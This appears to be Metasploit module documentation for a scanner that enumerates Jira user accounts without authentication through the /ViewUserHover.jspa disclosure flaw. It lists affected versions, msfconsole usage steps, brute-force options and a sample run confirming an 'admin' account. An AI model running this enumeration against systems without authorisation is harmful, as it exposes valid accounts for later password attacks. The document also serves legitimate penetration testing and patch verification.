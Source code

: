 ## Vulnerable Application

  [Jira](https://www.atlassian.com/software/jira) Jira is team management software for agile teams.

  This module has been tested successfully on:

   * Jira version 8.4.1 on Ubuntu Linux.
   * Jira version 8.4.1 on Kali Linux.
   * Jira version 8.5.6 on Ubuntu Linux.
   * Jira version 8.10.1 on Ubuntu Linux.
   * Jira version 8.11.0 on Ubuntu Linux

  Installers:

  * [Jira Installers](https://www.atlassian.com/software/jira/core/updateatlassian-jira-software-8.4.1.tar.gz)
  * [Jira Installers Archive] (https://www.atlassian.com/software/jira/download-archives)

### Description

  The module exploits an information disclosure vulnerability to allow an unauthenticated user to enumerate /ViewUserHover.jspa endpoint.
  This only affects Jira versions < 7.13.16, 8.0.0 ≤ version < 8.5.7, 8.6.0 ≤ version < 8.11.1
  Discovered by Mikhail Klyuchnikov @__mn1__
  https://twitter.com/ptswarm/status/1318914772918767619

## Verification Steps

  1. Start `msfconsole`
  2. Do: `use auxiliary/scanner/http/jira_user_enum`
  3. Do: `set rhosts [IP]`
  4. Do: `set SSL true`
  5. Do: `set RPORT 443`
  6. Do: `set USERNAME <username to test>
  7. Do: `run`
  8. You should find out if the user exists or not


## Options

- BRUTEFORCE_SPEED - How fast to bruteforce, from 0 to 5
- RHOSTS - The Target host(s)
- RPORT - Remote port hosting the Jira Application
- TAREGETURI - Path to Jira install on the webserver
- USERNAME - single username to attempt to enumerate
- USER_FILE - File of usernames to attempt to enumerate


## Scenarios

```
  msf6 > use auxiliary/scanner/http/jira_enum_users 
  msf6 auxiliary(scanner/http/jira_enum_users) > set rhosts 192.168.0.101
  rhosts => 192.168.0.101
  msf6 auxiliary(scanner/http/jira_enum_users) > set USERNAME admin
  msf6 auxiliary(scanner/http/jira_enum_users) > run

  [*] Begin enumerating users at 192.168.0.101/secure/ViewUserHover.jspa?username=
  [*] checking user admin
  [+] 'User exists: admin'
  [*] Scanned 1 of 1 hosts (100% complete)
  [*] Auxiliary module execution completed
  msf6 auxiliary(scanner/http/jira_enum_users) > creds
  Credentials
  ===========

  host           origin         service         public   private  realm  private_type  JtR Format
  ----           ------         -------         ------   -------  -----  ------------  ----------
  192.168.0.101  192.168.0.101  443/tcp (jira)  admin                                

```
